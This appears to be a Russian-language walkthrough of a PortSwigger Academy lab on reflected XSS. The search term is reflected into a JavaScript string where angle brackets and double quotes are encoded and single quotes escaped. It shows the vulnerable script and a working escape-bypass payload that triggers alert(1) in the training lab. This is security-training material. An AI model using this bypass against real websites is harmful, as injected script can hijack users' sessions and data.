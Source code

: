 введем в поиск рандомный запрос
```
0 search results for 'qwe123'
```
и посмотрим где отображается наш поисковый запрос в ответе
```
<script>
  var searchTerms = 'qwe123';
  document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/19.%20Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20escaped/pics%20for%20walkthrough/1.png)
Попробуем модифицировать запрос и найдем `qwe123'test`

и увидим, что запрос экранирован дополнительной последовательностью спецсимволов - `&apos;`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/19.%20Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20escaped/pics%20for%20walkthrough/2.png)
Попробуем обойти данную защиту, экранировав символ `'` -> `\'`
и введем в поисковую строку
```
\'-alert(1)//
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/19.%20Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20escaped/pics%20for%20walkthrough/3.png)
и получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/19.%20Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20angle%20brackets%20and%20double%20quotes%20HTML-encoded%20and%20single%20quotes%20escaped/pics%20for%20walkthrough/4.png)

